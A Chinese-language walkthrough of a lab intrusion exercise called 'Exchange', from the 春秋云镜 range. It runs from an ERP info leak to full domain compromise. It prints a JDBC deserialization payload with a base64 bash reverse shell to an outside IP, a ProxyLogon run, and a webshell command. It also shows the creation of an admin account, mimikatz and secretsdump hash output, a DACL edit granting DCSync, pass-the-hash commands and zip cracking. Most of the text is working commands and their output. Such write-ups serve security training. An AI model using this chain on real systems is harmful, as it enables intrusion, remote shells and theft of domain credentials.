









# 内网渗透之春秋云镜（2）-Exchange - 先知社区

内网渗透之春秋云镜（2）-Exchange

- - -

# 春秋云镜—Exchange

## flag1

入口：39.99.157.194

fscan 扫一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173723-ffd52304-c340-1.png)

发现一个存活的 8000 端口，访问一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173729-037d44aa-c341-1.png)

登录界面是个华夏 ERP，有个信息泄露可以泄露用户密码：

```plain
http://39.98.108.154:8000/user/getAllList;.ico
{"code":200,"data":{"userList":[{"id":63,"username":"季圣华","loginName":"jsh","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":1,"status":0,"description":"","remark":null,"tenantId":63},{"id":120,"username":"管理员","loginName":"admin","password":"e10adc3949ba59abbe56e057f20f883e","position":null,"department":null,"email":null,"phonenum":null,"ismanager":1,"isystem":0,"status":0,"description":null,"remark":null,"tenantId":null},{"id":131,"username":"测试用户","loginName":"test123","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":0,"status":0,"description":"","remark":null,"tenantId":63}]}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173738-08c458c2-c341-1.png)

可以参考[蓝帽杯 2022 决赛 – 赌怪 writeup](https://www.cnblogs.com/kingbridge/articles/16720318.html)打 JDBC

config.json 配置 ([ysoserial-all.jar](https://github.com/frohoff/ysoserial)和 server.py 放一起)，bash -c 后面替换成 base64 后反弹 shell 的 payload

```plain
{
        "config":{
            "ysoserialPath":"ysoserial-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
            "win_ini":"c:\\windows\\win.ini",
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
            "win":"c:\\windows\\",
            "linux_passwd":"/etc/passwd",
            "linux_hosts":"/etc/hosts",
            "index_php":"index.php",
            "ssrf":"https://www.baidu.com/",
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
        },
        "yso":{
            "Jdk7u21":["Jdk7u21","calc"],
            "CommonsCollections6":["CommonCollections6","bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUueHgueHgueHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"]
        }
    }
```

攻击路径

```plain
/user/list?search=paylaod
```

这里要注意一下，打 JDBC 洞用到的 cc6 这条链子对 java 的版本有要求的，只有使用的 openjdk version "1.8.0\_382"不能成功利用，换成 1.1.0 版本的就可以成功成功利用

payload

```plain
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```

url 编码一下

```plain
7B%20%22name%22%3A%20%7B%20%22%40type%22%3A%20%22java.lang.AutoCloseable%22%2C%20%22%40type%22%3A%20%22com.mysql.jdbc.JDBC4Connection%22%2C%20%22hostToConnectTo%22%3A%20%22120.77.200.94%22%2C%20%22portToConnectTo%22%3A%203306%2C%20%22info%22%3A%20%7B%20%22user%22%3A%20%22yso_CommonsCollections6_bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22%2C%20%22password%22%3A%20%22pass%22%2C%20%22statementInterceptors%22%3A%20%22com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%22%2C%20%22autoDeserialize%22%3A%20%22true%22%2C%20%22NUM_HOSTS%22%3A%20%221%22%20%7D%20%7D
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173751-109698b2-c341-1.png)

成功弹到 shell 并取得 flag

## flag2

我们先上传我们的三大件，agent，frpc，fscan

上传完成后我们用 fscan 扫一下

```plain
___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.3.12     is alive
(icmp) Target 172.22.3.2      is alive
(icmp) Target 172.22.3.9      is alive
(icmp) Target 172.22.3.26     is alive
[*] Icmp alive hosts len is: 4
172.22.3.9:8172 open
172.22.3.2:135 open
172.22.3.12:22 open
172.22.3.12:8000 open
172.22.3.9:808 open
172.22.3.26:445 open
172.22.3.9:445 open
172.22.3.2:445 open
172.22.3.9:443 open
172.22.3.26:139 open
172.22.3.9:139 open
172.22.3.2:139 open
172.22.3.26:135 open
172.22.3.9:135 open
172.22.3.12:80 open
172.22.3.2:88 open
172.22.3.9:81 open
172.22.3.9:80 open
[*] alive ports len is: 18
start vulscan
[*] NetInfo:
[*]172.22.3.9
   [->]XIAORANG-EXC01
   [->]172.22.3.9
[*] NetInfo:
[*]172.22.3.26
   [->]XIAORANG-PC
   [->]172.22.3.26
[*] NetInfo:
[*]172.22.3.2
   [->]XIAORANG-WIN16
   [->]172.22.3.2
[*] WebTitle: http://172.22.3.12:8000   code:302 len:0      title:None 跳转 url: http://172.22.3.12:8000/login.html
[*] WebTitle: http://172.22.3.12:8000/login.html code:200 len:5662   title:Lumia ERP
[*] WebTitle: http://172.22.3.9:81      code:403 len:1157   title:403 - 禁止访问：访问被拒绝。
[*] NetBios: 172.22.3.26     XIAORANG\XIAORANG-PC           
[*] 172.22.3.2  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.3.12        code:200 len:19813  title:lumia
[*] WebTitle: https://172.22.3.9        code:302 len:0      title:None 跳转 url: https://172.22.3.9/owa/
[*] WebTitle: http://172.22.3.9         code:403 len:0      title:None
[*] NetBios: 172.22.3.2      [+]DC XIAORANG-WIN16.xiaorang.lab      Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.3.9      XIAORANG-EXC01.xiaorang.lab         Windows Server 2016 Datacenter 14393 
[*] WebTitle: https://172.22.3.9:8172   code:404 len:0      title:None
[*] WebTitle: https://172.22.3.9/owa/auth/logon.aspx?url=https%3a%2f%2f172.22.3.9%2fowa%2f&reason=0 code:200 len:28237  title:Outlook
```

```plain
172.22.3.12     本机
172.22.3.9      EXC01
172.22.3.2      DC
172.22.3.26     PC
```

然后发现 172.22.3.9 是发现是 Exchange Server 2016，直接打[ProxyLogon](https://github.com/hausec/ProxyLogon)

```plain
proxychains python2 proxylogon.py 172.22.3.9 administrator@xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173803-17c19204-c341-1.png)

成功弹到 shell

```plain
net user lky qwer1234! /add
net localgroup administrators lky /add
```

添加一个用户登录成功（其实这里以及到 shell，就可以直接拿 flag，但是我对 cmd 的指令不是很熟悉，所以就开了一个用户做了，不过后面 dumphash 的时候还是要登录上用户的）

```plain
flag{5721ef82-5358-4745-8f00-ab9e06528868}
```

这样也可以用 exprolog.py 写入 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173811-1ca62000-c341-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173815-1f392c72-c341-1.png)

可以看到 shell 位置

```plain
proxychains curl --request POST --url https://172.22.3.9/owa/auth/a4l9e.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173821-228f6b20-c341-1.png)

可以看到成功命令执行

## flag4

上传一个 mimikatz 管理员运行

```plain
privilege::debug
sekurlsa::logonpasswords
```

抓出用户哈希

```plain
Authentication Id : 0 ; 2375709 (00000000:0024401d)
Session           : RemoteInteractive from 2
User Name         : Zhangtong
Domain            : XIAORANG
Logon Server      : XIAORANG-WIN16
Logon Time        : 2023/10/26 15:35:02
SID               : S-1-5-21-533686307-2117412543-4200729784-1147
        msv :
         [00000003] Primary
         * Username : Zhangtong
         * Domain   : XIAORANG
         * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
         * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
         * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
        tspkg :
        wdigest :
         * Username : Zhangtong
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : Zhangtong
         * Domain   : XIAORANG.LAB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 2336551 (00000000:0023a727)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/10/26 15:35:01
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * NTLM     : fd8408d2e99712fd9c0e3f9ff5a4a68a
         * SHA1     : 81696b3c14ee113350769e17397aac9a02071843
        tspkg :
        wdigest :
         * Username : XIAORANG-EXC01$
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : XIAORANG-EXC01$
         * Domain   : xiaorang.lab
         * Password : 3d 6d 31 ad 7f 1e 6a 92 75 93 d8 9c 28 c2 da f9 7e db d4 cd fc 54 f6 dd 2f 0b a2 1f 4e 72 3d cc 83 4a d9 57 e7 43 b1 db b4 33 0a c8 b2 d8 16 d0 68 8d bd 6a 31 9e b6 c4 65 cd 0d 0d 1a 57 67 05 dc 21 be f8 54 e1 f3 09 32 e0 5f 00 df a3 91 6b 37 37 75 de 02 90 5e 02 68 ce 88 b2 31 0c ab 82 c9 4c 3b 13 db 9c 3f a1 1c 20 45 39 4a 00 f9 53 b0 51 e7 72 4e 92 a1 83 6f 0c fb b9 fd 25 e2 71 e3 e7 83 53 f6 42 af 28 a3 bb 30 a0 71 e6 f0 67 02 d7 33 cf da 94 9c f0 48 0e f2 de 44 a2 39 0f 61 ad 3d 59 b7 29 30 37 39 54 15 cd 93 7f 56 49 3e c7 61 9c 95 ea d5 25 c7 90 d9 0c f5 39 94 0f 1b 22 66 3e e1 75 df 38 aa 84 b6 22 9e 31 f7 70 57 13 9f ef b0 18 5c 9f b8 53 98 20 0c 93 63 dc 6d 84 66 42 17 2e 27 e7 ea 05 ec 5d 99 e9 e7 e6
        ssp :
        credman :
```

这里分别抓出了 XIAORANG-EXC01$的哈希 fd8408d2e99712fd9c0e3f9ff5a4a68a

和 Zhangtong：22c7f81993e96ac83ac2f3f1903de8b4

到这里，我们可以用 XIAORANG-EXC01 哈希登录一下

```plain
proxychains xfreerdp /pth:fd8408d2e99712fd9c0e3f9ff5a4a68a /u:XIAORANG-EXC01$ /v:172.22.3.9:3389
```

这样就可以登录上 XIAORANG-EXC01，然后用 bloodhound 分析一下发现 EXC01 机器账户默认对域内成员具有 writeDacl 权限，这个权限允许身份修改指定对象 ACL，所以可以给 Zhangtong 修改个 DCSync，然后就可以抓域控哈希了。（这里查了一下资料，DCSync，DCSync 是域渗透中经常会用到的技术，其被整合在了 Mimikatz 中。在 DCSync 功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。所以当我们看到 EXC01 机器账户默认对域内成员具有 writeDacl 权限，所以 EXC01 机器就可以修改其他账户的 ACL，从而使 Zhangtong 获得 DCSync，从而就可以使用 Zhangtong，来抓域控哈希了）

[dacledit.py](https://github.com/ThePorgs/impacket)

添加 DCSync

```plain
proxychains python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\$ -hashes :4de6c4eeee1f315e1241c4a813e2b3b5 -action write -rights DCSync -principal Zhangtong -target-dn "DC=xiaorang,DC=lab" -dc-ip 172.22.3.2
```

抓哈希

```plain
proxychains python3 secretsdump.py xiaorang.lab/Zhangtong@172.22.3.2 -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -just-dc-ntlm
```

```plain
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:135  ...  OK
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:49667  ...  OK
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b8fa79a52e918cb0cbcd1c0ede492647:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\$431000-7AGO1IPPEUGJ:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_46bc0bcd781047eba:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2554056e362e45ba9:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_ae8e35b0ca3e41718:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_341e33a8ba4d46c19:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_3d52038e2394452f8:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2ddd7a0d26c84e7cb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_015b052ab8324b3fa:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_9bd6f16aa25343e68:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_68af2c4169b54d459:1133:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\HealthMailbox8446c5b:1135:aad3b435b51404eeaad3b435b51404ee:fed1d348cd1f50aaf3e70a2814ce0c0e:::
xiaorang.lab\HealthMailbox0d5918e:1136:aad3b435b51404eeaad3b435b51404ee:05977f338f3f1407e6628277530a2ffd:::
xiaorang.lab\HealthMailboxeda7a84:1137:aad3b435b51404eeaad3b435b51404ee:1e89e23e265bb7b54dc87938b1b1a131:::
xiaorang.lab\HealthMailbox33b01cf:1138:aad3b435b51404eeaad3b435b51404ee:0eff3de35019c2ee10b68f48941ac50d:::
xiaorang.lab\HealthMailbox9570292:1139:aad3b435b51404eeaad3b435b51404ee:e434c7db0f0a09de83f3d7df25ec2d2f:::
xiaorang.lab\HealthMailbox3479a75:1140:aad3b435b51404eeaad3b435b51404ee:c43965ecaa92be22c918e2604e7fbea0:::
xiaorang.lab\HealthMailbox2d45c5b:1141:aad3b435b51404eeaad3b435b51404ee:4822b67394d6d93980f8e681c452be21:::
xiaorang.lab\HealthMailboxec2d542:1142:aad3b435b51404eeaad3b435b51404ee:147734fa059848c67553dc663782e899:::
xiaorang.lab\HealthMailboxf5f7dbd:1143:aad3b435b51404eeaad3b435b51404ee:e7e4f69b43b92fb37d8e9b20848e6b66:::
xiaorang.lab\HealthMailbox67dc103:1144:aad3b435b51404eeaad3b435b51404ee:4fe68d094e3e797cfc4097e5cca772eb:::
xiaorang.lab\HealthMailbox320fc73:1145:aad3b435b51404eeaad3b435b51404ee:0c3d5e9fa0b8e7a830fcf5acaebe2102:::
xiaorang.lab\Lumia:1146:aad3b435b51404eeaad3b435b51404ee:862976f8b23c13529c2fb1428e710296:::
Zhangtong:1147:aad3b435b51404eeaad3b435b51404ee:22c7f81993e96ac83ac2f3f1903de8b4:::
XIAORANG-WIN16$:1000:aad3b435b51404eeaad3b435b51404ee:7976f5ec5af95a3d0ffd94206520f401:::
XIAORANG-EXC01$:1103:aad3b435b51404eeaad3b435b51404ee:fd8408d2e99712fd9c0e3f9ff5a4a68a:::
XIAORANG-PC$:1104:aad3b435b51404eeaad3b435b51404ee:d8271e9779f091986a5a5219ab4f51dc:::
[*] Cleaning up...
```

找到域管理员的哈希

```plain
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
```

用这个哈希传递攻击，进一下 shell

```plain
proxychains python3 wmiexec.py xiaorang.lab/Administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173837-2c3174c0-c341-1.png)

## flag3

最后一个 flag 在邮件里，dump 一下邮件内容 ([https://github.com/Jumbo-WJB/PTH\_Exchange](https://github.com/Jumbo-WJB/PTH_Exchange))

```plain
proxychains python3 pthexchange.py --target https://172xxxxxx/ --username Lumia --password '00000000000000000000000000000000:862976f8b23c13529c2fb1428e710296' --action Download
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204173844-3008b504-c341-1.png)

发现了一个压缩包，里面有一个 flag，但需要密码解压。根据邮件内容，密码就是电话号码。尝试使用电话号码解压压缩包并查看里面的内容。

我们已成功提取了电话信息，并将其保存在名为 1.txt 的文件中。然后 John 爆破一下。

```plain
zip2john secret.zip >zip.txt
john --wordlist=1.txt zip.txt
```

这样整个流程就结束了
